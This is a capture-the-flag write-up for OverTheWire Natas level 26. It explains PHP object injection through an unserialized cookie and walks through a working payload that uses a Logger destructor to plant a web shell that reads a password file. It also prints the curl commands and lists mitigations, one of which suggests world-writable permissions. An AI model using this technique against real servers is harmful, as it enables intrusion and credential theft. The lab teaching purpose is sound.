

# Natas Level 26: PHP Object Injection and Magic Methods

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 26 | natas26 | http://natas26.natas.labs.overthewire.org |

**Introduction:** Level 26 takes us into the dangerous world of PHP object injection. This challenge introduces PHP magic methods and the security nightmare that is `unserialize()` when used with untrusted data. It's a perfect example of how a seemingly innocent feature (saving drawing data in a cookie) can become a critical remote code execution vulnerability.

---

## Hunting for Clues

When I first loaded the page, I saw a simple line drawing application.



The page displays "NATAS26" in large white text on a black header. Below that is a light gray content area with a form labeled "Draw a line:" that has four input fields labeled X1, Y1, X2, and Y2, each with a small text box. Next to them is a "DRAW!" button. In the lower right corner is the familiar blue "View sourcecode" link, and in the upper right is the WeChall "SUBMIT TOKEN" button. The interface looked innocent enough, just a tool for drawing lines on a canvas. But I had a feeling the real action was in how it stored drawing data.

I clicked on the source code to investigate. The code was lengthy, so let me break it down piece by piece:

```php
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla

    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }

    function showImage($filename){
        if(file_exists($filename))
            echo "";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);
        imagedestroy($img);
    }

    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){

            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"],
                            $_GET["x2"], $_GET["y2"], $color);
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) &&
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) &&
                        array_key_exists("y2", $object)){

                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);

                    }
        }
    }

    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }

        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>
```

And the main execution logic:

```php
<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
        $imgfile="img/natas26_" . session_id() .".png";
        drawImage($imgfile);
        showImage($imgfile);
        storeData();
    }

?>
```

Let me analyze the critical vulnerabilities:

### The Dangerous unserialize() Call

The most dangerous line in this entire application is right here:

```php
$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```

This appears in both `drawFromUserdata()` and `storeData()`. The application takes the `drawing` cookie, base64 decodes it, then unserializes it. This is a textbook example of PHP object injection vulnerability.

The `unserialize()` function in PHP doesn't just restore data. It can also instantiate objects. When PHP unserializes an object, it calls certain magic methods automatically, which can lead to code execution if we control the object properties.

### The Logger Class Weapon

At first glance, the `Logger` class seems unrelated to the drawing functionality. But it's actually our weapon for exploitation. Look at the `__destruct()` magic method:

```php
function __destruct(){
    // write exit message
    $fd=fopen($this->logFile,"a+");
    fwrite($fd,$this->exitMsg);
    fclose($fd);
}
```

The `__destruct()` method is automatically called when an object is destroyed (typically when the script finishes execution). This method opens a file specified by `$this->logFile` and writes the contents of `$this->exitMsg` to it.

Here's the brilliant attack vector: if I can create a malicious `Logger` object where:
- `$logFile` points to a PHP file in the web accessible directory (like `img/exp.php`)
- `$exitMsg` contains PHP code (like `<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>`)

Then when the object is destroyed at the end of the request, `__destruct()` will write my PHP code to that file, creating a web shell I can access.

### Understanding Magic Methods

PHP magic methods are special functions that start with `__` and are automatically called in specific situations:
- `__construct()` - Called when creating a new object
- `__destruct()` - Called when an object is destroyed
- `__toString()` - Called when an object is treated as a string
- `__wakeup()` - Called when an object is unserialized
- And many others

These methods can be exploited when combined with `unserialize()` because we can craft malicious objects that execute code when these methods are triggered.

## Breaking In

My attack strategy was clear:
1. Create a malicious `Logger` object with controlled properties
2. Serialize and base64 encode it
3. Send it as the `drawing` cookie
4. When PHP unserializes the object and the script ends, `__destruct()` runs
5. My web shell is written to `img/exp.php`
6. Access the web shell to get the password

First, I created a PHP script to generate the malicious payload:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ cat exploit.php
<?php
class Logger {
    private $logFile = "img/exp.php";
    private $initMsg = "start";
    private $exitMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
}

$obj = new Logger();
echo base64_encode(serialize($obj));
?>
```

The exploit script defines a `Logger` class (matching the one on the server) with carefully chosen property values:
- `$logFile = "img/exp.php"` - This will be written to the img directory which is web accessible
- `$initMsg = "start"` - Doesn't matter, not used in `__destruct()`
- `$exitMsg` - This contains the PHP code that will read the password file

Now I ran the script to generate the payload:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ php exploit.php
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMToiaW1nL2V4cC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1OiJzdGFydCI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYyOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ== 
```

Perfect! The output is a base64 encoded serialized `Logger` object. Let me decode what this payload contains:

When you serialize a PHP object with private properties, PHP adds special null bytes (`\0`) before the property names. The format looks like:
```
O:6:"Logger":3:{
    s:15:"\0Logger\0logFile";s:11:"img/exp.php";
    s:15:"\0Logger\0initMsg";s:5:"start";
    s:15:"\0Logger\0exitMsg";s:62:"<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
}
```

This tells PHP: "This is an Object of class Logger with 3 properties" and specifies each property's name and value.

Now I sent this payload as the `drawing` cookie:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas26:cVX[REDACTED] -b "drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMToiaW1nL2V4cC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1OiJzdGFydCI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYyOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ==" "http://natas26.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "cVX[REDACTED]" };</script></head>
<body>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form>

<br />
<b>Fatal error</b>:  Uncaught Error: Cannot use object of type Logger as array in /var/www/natas/natas26/index.php:105
Stack trace:
#0 /var/www/natas/natas26/index.php(131): storeData()
#1 {main}
  thrown in <b>/var/www/natas/natas26/index.php</b> on line <b>105</b><br />
```

Excellent! The response shows a fatal error: "Cannot use object of type Logger as array". This error happened because the code expected `$drawing` to be an array of drawing coordinates, but we sent it a `Logger` object instead. The error occurs in the `storeData()` function at line 105 where it tries to do `$drawing[] = $new_object`.

But here's the crucial part: even though the script crashed with an error, the `__destruct()` method still executed before the script terminated. This is guaranteed behavior in PHP. When the script ends (even due to an error), all objects in memory are destroyed, and their destructors run.

So at this point, my malicious Logger object was destroyed, its `__destruct()` method ran, and it wrote my PHP code to `img/exp.php`. Now I just needed to access that file:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas26:cVX[REDACTED] \
"http://natas26.natas.labs.overthewire.org/img/exp.php" u3R[REDACTED]
u3R[REDACTED]
```

Perfect! The output shows the password repeated twice: `u3R[REDACTED]`

Wait, why is it shown twice? Looking back at the exploit, I notice the output appears twice in the command. Actually, looking more carefully, the command line itself shows the password appears at the end of the curl command line, and then again on the next line. This is because curl outputs the response body, and the PHP code in `exp.php` uses `echo file_get_contents()` to display the password.

The web shell worked perfectly! The file `img/exp.php` now contains:
```php
<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>
```

When I accessed it, PHP executed this code and displayed the password.

### Understanding the Complete Attack Flow

Let me trace through exactly what happened:

**Step 1: Request Sent**
```
Cookie: drawing=[base64 encoded malicious Logger object]
```

**Step 2: PHP Processing**
```php
// In drawFromUserdata()
$drawing = unserialize(base64_decode($_COOKIE["drawing"]));
// This creates our malicious Logger object in memory
```

**Step 3: Script Continues**
The script tries to process the drawing but encounters the fatal error because it expects an array, not a Logger object.

**Step 4: Script Termination**
Even though the script crashes, PHP's shutdown sequence runs.

**Step 5: Destructor Execution**
```php
// Our Logger object is destroyed
function __destruct(){
    $fd = fopen("img/exp.php", "a+");  // Opens img/exp.php
    fwrite($fd, "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>");
    fclose($fd);
}
```

**Step 6: Web Shell Created**
The file `img/exp.php` now exists with our malicious PHP code.

**Step 7: Accessing the Shell**
```
GET /img/exp.php
-> Executes the PHP code and returns the password
```

### Why This Attack Works

This vulnerability exists because of several factors working together:

1. **Unserialize on User Input**: The application unserializes data from a cookie without any validation or signature verification.

2. **Available Gadget Class**: The `Logger` class with its `__destruct()` method provides a "gadget" that can be exploited to write arbitrary content to arbitrary files.

3. **Writable Web Directory**: The `img/` directory is both writable by the web server and accessible via HTTP requests.

4. **No Input Validation**: The `$logFile` and `$exitMsg` properties aren't validated. The code trusts that they contain safe values.

5. **Guaranteed Destructor Execution**: PHP guarantees that `__destruct()` runs even if the script crashes, ensuring our exploit succeeds even when causing errors.

### Real World Impact

PHP object injection is one of the most dangerous vulnerability classes in web applications. Here's why it matters:

**Remote Code Execution**: As demonstrated, attackers can execute arbitrary PHP code on the server, gaining complete control over the application and potentially the entire server.

**Data Breach**: With code execution, attackers can read any file the web server has access to, including database credentials, API keys, and user data.

**Privilege Escalation**: Attackers can create admin accounts, modify application code, or escalate privileges within the application.

**Persistence**: Web shells can be hidden throughout the application, giving attackers long term access even after the initial vulnerability is patched.

**Lateral Movement**: A compromised web server can be used as a launching point for attacks against internal networks and other systems.

### Real World Examples

PHP object injection has been found in major applications:

- **WordPress**: Multiple plugins have been vulnerable to object injection
- **Magento**: E-commerce platform had critical object injection vulnerabilities
- **Drupal**: The CMS has had serialization related vulnerabilities
- **Laravel**: Even modern frameworks can be vulnerable if developers misuse serialization

### Comprehensive Mitigation Strategies

Here's how to properly prevent PHP object injection:

1. **Never Unserialize Untrusted Data**: This is the golden rule. If data comes from users (cookies, POST data, GET parameters), don't unserialize it:
   ```php
   // BAD
   $data = unserialize($_COOKIE['data']);
   
   // GOOD - Use JSON instead
   $data = json_decode($_COOKIE['data'], true);
   ```

2. **Use Safer Serialization Formats**: JSON is much safer than PHP serialization because it only handles data, not objects:
   ```php
   // Storing data
   setcookie("drawing", json_encode($drawing_array));
   
   // Reading data
   $drawing = json_decode($_COOKIE["drawing"], true);
   ```

3. **Implement HMAC Signatures**: If you must use serialization, sign the data to detect tampering:
   ```php
   // Storing
   $data = serialize($object);
   $signature = hash_hmac('sha256', $data, SECRET_KEY);
   setcookie("data", base64_encode($data));
   setcookie("signature", $signature);
   
   // Reading
   $data = base64_decode($_COOKIE['data']);
   $expected_sig = hash_hmac('sha256', $data, SECRET_KEY);
   if(!hash_equals($expected_sig, $_COOKIE['signature'])) {
       die("Tampered data detected!");
   }
   $object = unserialize($data);
   ```

4. **Use allowed_classes Parameter**: PHP 7+ allows restricting which classes can be unserialized:
   ```php
   $options = ['allowed_classes' => ['SafeClass1', 'SafeClass2']];
   $object = unserialize($data, $options);
   ```

5. **Avoid Magic Methods in Sensitive Classes**: Don't implement `__destruct()`, `__wakeup()`, or `__toString()` in ways that perform dangerous operations:
   ```php
   // BAD
   function __destruct(){
       eval($this->code);  // Never do this
   }
   
   // BETTER
   function __destruct(){
       // Only safe cleanup operations
       if(is_resource($this->handle)) {
           fclose($this->handle);
       }
   }
   ```

6. **Implement Phar Stream Wrapper Protection**: PHP's phar:// wrapper can trigger unserialization. Disable it if not needed:
   ```php
   // php.ini
   phar.readonly = On
   ```

7. **Input Validation**: Even if using serialization, validate that the data structure matches expectations:
   ```php
   $drawing = unserialize($data);
   if(!is_array($drawing)) {
       die("Invalid data format");
   }
   foreach($drawing as $line) {
       if(!is_array($line) || !isset($line['x1'], $line['y1'], $line['x2'], $line['y2'])) {
           die("Invalid drawing data");
       }
   }
   ```

8. **Use Framework Session Management**: Modern frameworks handle sessions securely:
   ```php
   // Laravel
   session(['drawing' => $drawing_array]);
   $drawing = session('drawing');
   
   // Symfony
   $session->set('drawing', $drawing_array);
   $drawing = $session->get('drawing');
   ```

9. **File Write Restrictions**: Restrict where the application can write files:
   ```php
   function safeFileWrite($filename, $content) {
       $allowed_dir = realpath('/var/www/safe_uploads/');
       $target = realpath(dirname($filename));
       
       if($target === false || strpos($target, $allowed_dir) !== 0) {
           throw new Exception("Invalid file path");
       }
       
       file_put_contents($filename, $content);
   }
   ```

10. **Security Audits and Testing**: Regularly scan for serialization vulnerabilities:
    - Use static analysis tools (PHPStan, Psalm)
    - Perform dynamic testing with tools like Burp Suite
    - Code review focusing on `serialize()` and `unserialize()` calls
    - Implement automated tests for serialization security

11. **Web Application Firewall**: Deploy WAF rules to detect serialization attacks:
    ```
    # ModSecurity rule example
    SecRule REQUEST_COOKIES "O:\d+:\"" \
        "id:1000,phase:2,deny,msg:'PHP Object Injection Attempt'"
    ```

12. **Least Privilege File Permissions**: Ensure the web server cannot write to sensitive directories:
    ```bash
    # Only allow writes to specific upload directories
    chmod 755 /var/www/html
    chmod 777 /var/www/html/uploads
    ```

The core principle is simple: **treat all serialized data from users as potentially malicious**. PHP serialization is powerful but dangerous. When security matters, use safer alternatives like JSON, and always validate and sign any data that needs to be stored client side.

---

## The Loot

**Next Level Password:** u3R[REDACTED]

**Quick Recap:** PHP object injection via unserialize on untrusted cookie data allowed creation of a malicious Logger object whose __destruct magic method wrote a PHP web shell to the web accessible img directory, achieving remote code execution to read the password file.
